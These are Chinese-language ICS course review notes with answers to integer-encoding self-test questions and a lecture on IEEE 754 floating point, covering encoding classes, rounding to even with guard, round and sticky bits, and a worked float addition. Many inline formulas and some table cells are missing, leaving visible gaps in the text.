8 位位模式 0xB4 作为无符号数和补码数分别是多少？
short sx = -12345; unsigned u = sx; 执行后 u 的十六进制值和十进制值是多少？
int x = 53191; short s = (short) x; 执行后 s 等于多少？为什么？
4 位补码运算：5 + 6、(−8) + (−1)、(−3) + 7 的结果分别是多少？各自是否溢出、属于哪种溢出？
只用移位和加减法写出 x * 31 和 x * (-6)。
不用除法和条件语句，写出向零取整的 x / 16（x 为 int）。
小端机器上执行 int x = 0x0A0B0C0D;，若 &x = 0x100，地址 0x102 处的字节是什么？*(unsigned char *)&x 的值是什么？
判断真假：（a）(unsigned)-1 == UINT_MAX；（b）-2147483647-1 == 2147483648U；（c）(char)0x80 < 0（char 为有符号）；（d）~0 >> 1 == -1。
字符串 "ICS" 在内存中的字节序列是什么？在大端机器上有区别吗？
写一个表达式：当 int x 的最低有效字节为全 1 时得到 1，否则得到 0（不能用 if）。
自测题答案#
0xB4 = 1011 0100。无符号：128 + 32 + 16 + 4 = 180；补码：−128 + 52 = −76（也可用 180 − 256 = −76）。
先符号扩展为 int：−12345 = 0xCFC7（16 位）→ 0xFFFFCFC7，再解释为无符号：4294967296 − 12345 = 4294954951。
53191 = 0x0000CFC7，截断为 16 位得 0xCFC7，最高位为 1，按补码为 53191 − 65536 = −12345。
5 + 6 = 11 > 7，正溢出，结果 11 − 16 = −5；(−8) + (−1) = −9 < −8，负溢出，结果 −9 + 16 = 7；(−3) + 7 = 4，异号相加不会溢出。
x * 31 = (x << 5) - x；x * (-6) = (x << 1) - (x << 3)（即 2x − 8x）。
(x + ((x >> 31) & 15)) >> 4：x 为负时 x >> 31 全 1，与 15 相与得偏置 15；x 非负时偏置为 0。
小端存放为 0D 0C 0B 0A（地址 0x100–0x103），0x102 处是 0x0B；*(unsigned char *)&x 读最低地址字节，为 0x0D。
（a）真；（b）真：左边 TMin 转换为无符号数 2147483648；（c）真：0x80 作为 signed char 是 −128；（d）真：~0 是 int −1，算术右移仍为 −1（若写成 ~0u >> 1 则得到 TMax）。
49 43 53 00（'I' = 0x49、'C' = 0x43、'S' = 0x53，末尾是空字符）。没有区别，单字节数据不受字节序影响。
!((x & 0xFF) ^ 0xFF) 或 !(~x & 0xFF)。思路：取出最低字节与 0xFF 比较，相等时异或为 0，再用 ! 规范为 1。
—— 第 1–2 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 3 讲
浮点数（Floating Point）
如何使用本讲义#
本讲义延续第 1–2 讲的体例：先用连贯的文字把道理讲透，再用表格、色块和公式框归纳结论。浮点数的位模式统一按下面的颜色标注，与整数讲义中“符号位用橙色”的习惯一致：
| 图例 | s | exp | frac | 符号位 s ｜ 阶码字段 exp ｜ 小数字段 frac |
| 框的颜色 | 含义 |
|---|---|
| ★ 蓝色 | 关键结论、核心公式，必须能默写 |
| ⚠ 橙色 | 易错点、反直觉的陷阱 |
| 例 绿色 | 完整演算的例子，先自己算再对答案 |
| 教材 灰色 | 教材中课堂未展开的内容 |
| 常见问题 紫色 | 学习中常见的疑问与解答 |
表 1 第 3 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| Background: Fractional binary numbers（p.3–6） | 二进制小数怎么表示？为什么 0.1 存不准？ | 3.1 |
| IEEE floating point standard: Definition（p.8–23） | ；三类值：规格化、非规格化、特殊值 | 3.2–3.5 |
| Example and properties（p.25–29） | 8 位微型格式、数值分布、为什么能按整数比较 | 3.6–3.7 |
| Rounding, addition, multiplication（p.31–38） | 四种舍入、向偶数舍入、乘法和加法的步骤、数学性质 | 3.8–3.11 |
| Floating point in C（p.40–41） | 类型转换规则、浮点谜题 | 3.12–3.13 |
| Additional Slides（p.44–48） | 整数转浮点的完整过程（GRS 位）、特殊数值表 | 3.9、3.5 |
第一部分 第 3 讲知识点：浮点数#
第 2 讲解决了“整数怎样用位表示”，这一讲要回答“小数（实数）怎样用位表示”。主线是：先看最朴素的定点二进制小数，发现它范围太窄；于是借鉴科学记数法，得到浮点数；IEEE 754 标准为浮点数规定了精确的编码和舍入规则，使得“每次运算都等价于先精确计算、再舍入”。理解这条主线，就能推出几乎所有的结论和陷阱。
3.1 二进制小数（课件 p.3–6）#
十进制小数 12.34 的含义是 。二进制小数完全类比：小数点左边各位的权重是 ，右边各位的权重是 。课件 p.3 的问题“ 是多少”答案是 。一般地：
二进制小数的位权（黄色为小数部分）
| 权重 | 8 | 4 | 2 | 1 | . | 1/2 | 1/4 | 1/8 | |
| 1011.101 | 1 | 0 | 1 | 1 | . | 1 | 0 | 1 | = 8 + 2 + 1 + 1/2 + 1/8 = 11.625 |
表 2 课件 p.5 的例子：同一串位 10111，小数点位置不同
| 值 | 二进制表示 | 展开 |
|---|---|---|
这三个例子的位串都是 10111，只是小数点依次左移一位，数值依次减半。这说明了课件 p.5 的观察：小数点右移（位串左移）一位相当于乘 2，左移一位相当于除以 2（对无符号数）。另外，形如 的数恰好比 1 小一点：，记作 。
★ 定点表示的两个局限（课件 p.6）
第一个局限是只能精确表示形如 的数。其他有理数的二进制表示是无限循环小数，例如 ，，。有限位存储时只能截断或舍入。
第二个局限来自小数点位置固定，而 位中小数点只有一个位置，要么能表示很大的数，要么能表示很精细的小数，无法兼顾。
常见问题：十进制小数怎样转成二进制？
整数部分反复除以 2 取余；小数部分反复乘以 2，每次取整数部分作为下一位。例如 （取 1，余 0.25），（取 0），（取 1，余 0），所以 。对 0.1 做同样的操作会出现 0.2、0.4、0.8、0.6、0.2…… 的循环，因此 不能被有限位精确表示，这也是 0.1 + 0.2 != 0.3 的根源。
判断方法是：一个分数约分后，只有分母是 2 的幂时才能被有限位二进制精确表示。
3.2 IEEE 754 标准与浮点表示（课件 p.8–12）#
IEEE 754 标准于 1985 年制定，统一了此前各厂商五花八门的浮点格式，如今所有主流 CPU 都支持它。课件强调该标准“由数值计算的需求驱动”：它对舍入、上溢、下溢都有精心的规定，便于数值分析，代价是硬件很难做得快——制定标准时数值分析专家的意见压倒了硬件设计者（主导者是 William Kahan，他因此获得 1989 年图灵奖）。课件 p.9 用两起事故说明浮点问题的严重性，详见研讨题 1（2）。
浮点数的思想来自科学记数法。 写成二进制科学记数法是 ，其中 叫尾数（significand），13 叫指数（exponent）。规范的科学记数法中，尾数的整数部分总是一个非零数字；在二进制里非零数字只有 1，所以尾数总是以 1 开头（课件 p.10 的问题），这一点后面会被巧妙利用。
★ 浮点数的数值形式与编码（课件 p.11）
符号 s（sign）：决定正负，s = 0 为正，s = 1 为负。
尾数 M（significand）：通常是 中的小数。
阶码/指数 E（exponent）：给数值乘上 2 的幂作为权重。
编码时，最高位是符号位 s；exp 字段编码 E，但不等于 E；frac 字段编码 M，但不等于 M。这两句“不等于”是整讲最容易混淆的地方。

图 1 单精度与双精度的位布局（课件 p.12）
表 3 IEEE 浮点格式一览（课件 p.12；教材 2.4.2 节、习题 2.86–2.87）
| 格式 | 总位数 | s | exp 位数 k | frac 位数 n | Bias | 十进制有效数字 | 大致范围 |
|---|---|---|---|---|---|---|---|
| 半精度 half | 16 | 1 | 5 | 10 | 15 | 约 3 | |
| 单精度 float | 32 | 1 | 8 | 23 | 127 | 约 7 | |
| 双精度 double | 64 | 1 | 11 | 52 | 1023 | 约 16 | |
| x87 扩展精度 | 80 | 1 | 15 | 64（含显式整数位） | 16383 | 约 19 | |
| 四精度 quad | 128 | 1 | 15 | 112 | 16383 | 约 34 |
3.3 三类浮点数（课件 p.13–17）#
根据 exp 字段的取值，浮点数分成三类（课件 p.13）：exp 全 0 的是非规格化数（denormalized），exp 全 1 的是特殊值（special），其余是规格化数（normalized）。下面分别讲解，最后用一张表归纳。
按 exp 字段区分三类值（frac 只画出前 7 位示意）
| 非规格化 | s | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | f | f | f | f | f | f | f | exp 全为 0 |
| 规格化 | s | e | ≠ | 0 | , | ≠ | 1 | f | f | f | f | f | f | f | exp 既非全 0 也非全 1 | ||
| 特殊值 | s | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | f | f | f | f | f | f | f | exp 全为 1 |
规格化数#
当 且 时为规格化数，这是最常见的情况。
★ 规格化数的编码规则（课件 p.14）
Exp 是 exp 字段按无符号数解释的值；k 是 exp 的位数。单精度 Bias = 127，Exp 取 1～254，E 取 −126～127；双精度 Bias = 1023，Exp 取 1～2046，E 取 −1022～1023。
尾数采用隐含的前导 1：，xxx…x 就是 frac 的各位。frac 全 0 时 M 取最小值 1.0；frac 全 1 时 M 取最大值 。
因为前导 1 不必存储，相当于免费多得一位精度：单精度存 23 位，实际有 24 位有效位。
编码示例：float F = 15213.0（课件 p.15）
第 1 步，写成二进制科学记数法：。
第 2 步，尾数：，去掉前导 1，后面补 0 到 23 位：frac = 11011011011010000000000。
第 3 步，阶码：，。
第 4 步，拼接：s = 0，得到下面的位模式，即 0x466DB400（已用 C 程序验证）。
| 15213.0 | 0 | 1 | 0 | 0 | 0 | 1 | 1 | 0 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0x466DB400 |
非规格化数#
当 exp 全为 0 时为非规格化数，它的编码规则与规格化数有两处不同：指数取 （而不是 ），尾数的前导位隐含为 0：。
★ 非规格化数的编码规则（课件 p.16）
当 exp = 0、frac = 0 时，表示 0。由于符号位可以是 0 或 1，存在 +0 和 −0 两个不同的位模式。
当 exp = 0、frac ≠ 0 时，最接近 0 的那些数，并且彼此等间距（equispaced），间距为 ，单精度为 。
非规格化数的用途有两个：（1）表示 0（规格化数的 M ≥ 1，无法表示 0）；（2）实现逐渐下溢（gradual underflow），让数值平滑地趋近 0。
为什么指数取 而不是 ？这样最大的非规格化数 与最小的规格化数 恰好只差一个最小间距 ，两类数无缝衔接；若取 ，非规格化数会整体缩小一半，两类数之间会出现一个空隙。3.6 节的 8 位格式表格可以直观看到这一点。
特殊值#
表 4 特殊值（课件 p.17）
| 条件 | 含义 | 例子 |
|---|---|---|
| exp = 11…1，frac = 00…0 | 无穷（∞），有 +∞ 和 −∞，表示上溢的结果 | 1.0/0.0 = −1.0/−0.0 = +∞；1.0/−0.0 = −∞ |
| exp = 11…1，frac ≠ 00…0 | 非数（NaN, Not-a-Number），表示无法确定数值的结果 | sqrt(−1)、∞ − ∞、∞ × 0、0.0/0.0 |
表 5 三类浮点数总结（务必默写）
| 类别 | exp | frac | E | M | 作用 |
|---|---|---|---|---|---|
| 非规格化 | 全 0 | 任意 | ±0 与接近 0 的数，等间距 | ||
| 规格化 | 非全 0 且非全 1 | 任意 | 绝大多数数值 | ||
| 无穷 | 全 1 | 全 0 | — | — | 上溢、除以 0 |
| NaN | 全 1 | 非全 0 | — | — | 无效运算的结果 |

图 2 浮点编码在数轴上的分布示意（课件 p.23）
3.4 解码示例（课件 p.18–22）#
解码的步骤与编码相反：按 1 + k + n 位切开，先看 exp 判断属于哪一类，再分别算出 E 和 M。
| 0xC0A00000 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
例 1：float 0xC0A00000（规格化数）
二进制 1100 0000 1010 0000 …，切分为 s = 1，exp = 10000001，frac = 0100…0。
exp = 129 既非全 0 也非全 1，是规格化数：；；s = 1 为负数。
| 0x001C0000 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
例 2：float 0x001C0000（非规格化数）
切分为 s = 0，exp = 00000000，frac = 0011100…0。exp 全 0，是非规格化数：；。
⚠ 课件 p.21 的小笔误
课件 p.21（例 2 的“题目页”）中残留了例 1 的文字：“E = 129，S = 1 → negative number，M = 1 + 1/4 = 1.25”。以 p.22 的完整解答为准：E = −126，S = 0，M = 7/32。
3.5 一些特殊的数（课件 p.48）#
表 6 Interesting Numbers（课件 p.48）
| 描述 | exp | frac | 数值（单精度 / 双精度通式） | 单精度约为 | 双精度约为 |
|---|---|---|---|---|---|
| 0 | 00…00 | 00…00 | 0.0 | 0 | 0 |
| 最小正非规格化数 | 00…00 | 00…01 | |||
| 最大非规格化数 | 00…00 | 11…11 | |||
| 最小正规格化数 | 00…01 | 00…00 | |||
| 1 | 01…11 | 00…00 | 1.0 | 1 | 1 |
| 最大规格化数 | 11…10 | 11…11 |
从表中可以观察到：最大非规格化数只比最小规格化数小一点点（“Just larger than largest denormalized”）；1.0 的 exp 是 01…11，正好是 Bias；最大规格化数的 exp 是 11…10，因为 11…11 留给了特殊值。C 中 <float.h> 的 FLT_MIN、FLT_MAX、FLT_TRUE_MIN、DBL_MAX 等宏给出这些值。
3.6 8 位微型浮点格式（课件 p.25–26）#
为了能把所有值列出来观察，课件构造了一个 8 位的“玩具”格式：1 位符号、4 位 exp（Bias = ）、3 位 frac，其余规则与 IEEE 完全相同。下表列出非负的部分（s = 0）：
表 7 8 位格式的动态范围（s = 0，课件 p.26）
| 类别 | s exp frac | E | 计算 | 值 | 说明 |
|---|---|---|---|---|---|
| 非规格化数 | 0 0000 000 | −6 | 0 | 0 | |
| 0 0000 001 | −6 | 1/8 × 1/64 | 1/512 | 最接近 0 | |
| 0 0000 010 | −6 | 2/8 × 1/64 | 2/512 | ||
| … | |||||
| 0 0000 111 | −6 | 7/8 × 1/64 | 7/512 | 最大非规格化数 | |
| 规格化数 | 0 0001 000 | −6 | 8/8 × 1/64 | 8/512 | 最小规格化数 |
| 0 0001 001 | −6 | 9/8 × 1/64 | 9/512 | ||
| … | |||||
| 0 0110 111 | −1 | 15/8 × 1/2 | 15/16 | 小于 1 的最大值 | |
| 0 0111 000 | 0 | 8/8 × 1 | 1 | ||
| 0 0111 001 | 0 | 9/8 × 1 | 9/8 | 大于 1 的最小值 | |
| … | |||||
| 0 1110 110 | 7 | 14/8 × 128 | 224 | ||
| 0 1110 111 | 7 | 15/8 × 128 | 240 | 最大规格化数 | |
| 特殊值 | 0 1111 000 | — | — | +∞ |
注意表中 7/512 → 8/512 这一步：最大非规格化数和最小规格化数之间的间距也是 1/512，与非规格化数之间的间距相同，这正是 带来的平滑过渡。另一方面，每当 exp 加 1，数值区间翻倍，而区间内仍只有 8 个等间距的值，所以间距随数值增大而翻倍——这就是“浮点”精度的含义：相对精度大致不变，绝对精度随数值变化。
3.7 数值分布与比较（课件 p.27–29）#
课件 p.27–28 用一个 6 位格式（e = 3，f = 2，Bias = 3）画出全部可表示值的分布。可以看到：可表示的数并不均匀，越靠近 0 越密集；在 0 附近，非规格化数等间距地填补了 0 与最小规格化数之间的空白。

图 3 6 位格式全部可表示值的分布（课件 p.27–28，据规则精确绘制）
IEEE 编码还有两个很实用的性质（课件 p.29）。第一，浮点数 0 的位模式与整数 0 相同，全部为 0，所以 memset 清零的数组就是浮点 0.0。第二，几乎可以直接用无符号整数比较来比较浮点数：对于非负数，exp 在高位、frac 在低位，exp 用偏置编码（越大的指数，无符号值越大），所以位模式越大、数值越大。下图用 8 位格式验证了这一点。

图 4 非负浮点数的位模式（按无符号整数）与数值之间单调对应
★ 用整数比较浮点数时需要注意（课件 p.29）
第一件事是先比较符号位：负数的位模式按无符号看更大，且负数部分顺序相反。
必须考虑 −0 = +0：两者位模式不同，但数值相等。
NaN 会带来问题：NaN 的位模式比 ∞ 还大，但 NaN 与任何数比较的结果都应为“无序”，用整数比较无法得到这一语义。
其余情况都正确，非规格化数与规格化数之间、规格化数与无穷之间的顺序都与数值顺序一致。
3.8 舍入（课件 p.31–34）#
浮点运算的基本思想只有一句话（课件 p.31）：先计算精确结果，再把它调整到目标精度。即 ，。调整时，指数太大则上溢（得到 ∞），尾数位数太多则舍入。因此，理解浮点运算的关键是理解舍入。
表 8 四种舍入方式（课件 p.32；黄底为“恰好一半”时向偶数取舍）
| 舍入方式 | $1.40 | $1.60 | $1.50 | $2.50 | −$1.50 |
|---|---|---|---|---|---|
| 向零舍入（towards zero） | $1 | $1 | $1 | $2 | −$1 |
| 向下舍入（round down，向 −∞） | $1 | $1 | $1 | $2 | −$2 |
| 向上舍入（round up，向 +∞） | $2 | $2 | $2 | $3 | −$1 |
| 向偶数舍入（nearest even，默认） | $1 | $2 | $2 | $2 | −$2 |
★ 向偶数舍入（round-to-even）规则
先向最近的值舍入；只有当原值恰好位于两个可表示值的正中间时，才选择最低有效位为偶数的那一个。
为什么默认用它？其他三种方式都有统计偏差：对一组正数求和，向上舍入总是高估、向下舍入总是低估；“四舍五入”遇到 .5 总是向上，也会系统性地偏高。向偶数舍入在“一半”的情况下一半向上、一半向下，期望偏差为 0。此外，改用其他舍入方式通常需要借助汇编或专门的库函数（fesetround）。
表 9 十进制的向偶数舍入（课件 p.33）
| 原值 | 舍入到百分位 | 理由 |
|---|---|---|
| 7.8949999 | 7.89 | 小于一半，舍去 |
| 7.8950001 | 7.90 | 大于一半，进位 |
| 7.8950000 | 7.90 | 恰好一半，9 是奇数，进位得偶数 0 |
| 7.8850000 | 7.88 | 恰好一半，8 已是偶数，舍去 |
在二进制中，“偶数”指最低有效位为 0；“恰好一半”指舍入位置右边的位恰好是 。课件 p.34 以舍入到 1/4（保留小数点后 2 位）为例：
表 10 二进制的向偶数舍入（课件 p.34；竖线为舍入位置）
| 值 | 二进制 | 舍入后 | 动作 | 舍入后的值 |
|---|---|---|---|---|
| 10.00|011 | 10.00 | 多出部分 011 < 100，舍去 | 2 | |
| 10.00|110 | 10.01 | 多出部分 110 > 100，进位 | ||
| 10.11|100 | 11.00 | 恰好一半，保留位末位为 1（奇），进位 | 3 | |
| 10.10|100 | 10.10 | 恰好一半，末位为 0（偶），舍去 |
★ 用 G、R、S 三位判断是否进位（课件 p.46）
设保留部分为 1.BBG，后面被舍弃的部分为 RXXX。G（guard bit）是保留部分的最低位；R（round bit）是被舍弃的第一位；S（sticky bit）是 R 之后所有位的“或”。
R = 0：小于一半，舍去。
R = 1 且 S = 1：大于一半，进位。
R = 1 且 S = 0：恰好一半，看 G：G = 1（奇）进位，G = 0（偶）舍去。
可以概括成一句话：进位 ⇔ R ∧ (G ∨ S)。
3.9 从整数构造浮点数：规格化、舍入、再规格化（课件 p.44–47）#
附加页演示了把 8 位无符号整数转换为 8 位微型浮点格式（4 位 exp、3 位 frac）的完整过程，分三步：规格化（调整为 1.xxx 的形式，左移一位指数减一）、舍入（用 G/R/S 判断）、再规格化（若舍入导致尾数变成 10.000，则右移一位并把指数加一）。
表 11 整数转换为微型浮点格式（课件 p.45–47，已更正）
| 值 | 二进制 | 规格化后的尾数 | 指数 | GRS | 进位？ | 舍入后 | 再规格化 | 结果 |
|---|---|---|---|---|---|---|---|---|
| 128 | 10000000 | 1.000|0000 | 7 | 000 | N | 1.000 | 128 | |
| 13（课件标为 15） | 00001101 | 1.101|0000 | 3 | 100 | N | 1.101 | 13 | |
| 17（课件 p.44 标为 33） | 00010001 | 1.000|1000 | 4 | 010 | N | 1.000 | 16 | |
| 19（课件 p.44 标为 35） | 00010011 | 1.001|1000 | 4 | 110 | Y | 1.010 | 20 | |
| 138 | 10001010 | 1.000|1010 | 7 | 011 | Y | 1.001 | 144 | |
| 63 | 00111111 | 1.111|1100 | 5 | 111 | Y | 10.000 | 1.000 × 2⁶ | 64 |
逐行理解这张表：17 = 1.0001×2⁴，多出部分 1000 中 R = 1、S = 0 恰好一半，G = 0 为偶，舍去得 16；19 = 1.0011×2⁴，R = 1、S = 0 恰好一半，G = 1 为奇，进位得 1.010×2⁴ = 20；63 = 1.11111×2⁵，进位后尾数变成 10.000，需要再规格化为 1.000×2⁶ = 64。138 = 1.0001010×2⁷，G = 0，R = 1，S = 1（后面还有 1），大于一半，进位得 ——138 位于可表示的 128 与 144 之间，离 144 更近，结果合理。
⚠ 课件附加页中的几处笔误
p.44 的样例写作“33 = 00010001，35 = 00010011”，但 00010001 = 17、00010011 = 19，p.45 起也按 17、19 计算。
p.44–47 中“15 = 00001101”（p.47 的结果也写成 15）：00001101 实际是 13，规格化为 1.1010000×2³，最终结果也是 13（若真是 15 = 00001111，结果为 15）。
p.47 中 138 的结果写成 134，按 1.001×2⁷ 计算应为 144。
这些笔误不影响方法本身，复习时以规则推导的结果为准。
3.10 浮点乘法与加法（课件 p.35–36）#
★ 浮点乘法：（课件 p.35）
先写出精确结果：符号 ；尾数 ；指数 。
然后修正结果：若 ，M 右移一位，E 加 1；若 E 超出范围，上溢；把 M 舍入到 frac 的精度。
实现上最费力的是尾数相乘。
课件的 4 位尾数例子是：（R = 1，S = 1，进位）。
★ 浮点加法：，设 （课件 p.36）
第一步是对阶，把指数小的那个数的尾数右移 位，使小数点对齐。
第二步算出精确结果：按符号对齐后相加得到 s 与 M，指数 。
最后修正结果：若 ，右移一位，E 加 1；若 ，左移 k 位，E 减 k；E 超出范围则上溢；把 M 舍入到 frac 的精度。
课件的例子如下：（G = 1，R = 1，S = 0，恰好一半且 G 为奇，进位）。
具体例子：两个真实 float 的位级加法#
上面的规则框把浮点加法分成对阶、相加、规格化、舍入、检查溢出几步。研讨题 2（4）用 4 位尾数的微型格式演示过这些步骤，下面换成真正的 32 位 float，从位模式出发完整地算一遍 x + y，其中 x = 16777215 = （0x4B7FFFFF），y = 2.5（0x40200000）。选这一对数，是因为它在一次加法中同时触发了“相加后整数部分进位、需要右移规格化”和“按 G、R、S 舍入”两件事；而且 x 恰好位于 float 能精确表示全部整数的边界上：绝对值不超过 的整数都能精确表示，超过 之后，相邻两个 float 的间隔变成 2，加法的结果只能落在偶数上。两个操作数的位模式如下（橙色为符号位，黄色为 exp，蓝色为 frac）：
| 0x4B7FFFFF | 0 | 1 | 0 | 0 | 1 | 0 | 1 | 1 | 0 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 | 1 |
| 0x40200000 | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 |
先把两个数解码：x 的 exp = = 150，E = 150 − 127 = 23，frac 是 23 个 1，所以 M = （小数点后 23 个 1）= ，x = 。y 的 exp = = 128，E = 1，frac = 0100…0，M = = 1.25，y = 1.25 × 2 = 2.5。接着对阶，两个指数相差 23 − 1 = 22，把指数小的 y 的尾数右移 22 位，使两者都写成“”的形式： 变成 ，其中最后一个 1 落在小数点后第 24 位，已经超出了 frac 的 23 位。这一位不能直接丢掉，硬件在右边额外保留了几位，舍入时要用到它们。
然后把尾数相加（），即精确和 16777217.5。尾数达到了 2，整数部分变成两位，需要规格化。于是把小数点左移一位（等价于尾数右移一位），指数加 1，得到 。注意图 5 中各位的位置并没有动，动的只是小数点。现在小数点后只能保留 23 位：保留部分的最低位 G = 0，紧随其后的舍入位 R = 1，R 之后各位的“或”S = 1。最后舍入：R = 1 且 S = 1，说明被舍去的部分大于最低位单位的一半（实际是 0.75 个单位），应当向上进位，frac 由全 0 变成 00…01。进位没有使尾数再次达到 2，不需要再规格化；E = 24 在单精度的范围内，没有溢出。最终结果 s = 0，exp = 24 + 127 = 151 = ，frac = 00…01，即 0x4B800001 = = 16777218。在 x86-64 上用 C 程序实测，16777215.0f + 2.5f 的结果正是 0x4B800001。

图 5 x + y 的位级过程（x = 0x4B7FFFFF，y = 2.5）：对阶、相加、规格化、舍入
| 0x4B800001 | 0 | 1 | 0 | 0 | 1 | 0 | 1 | 1 | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 1 |
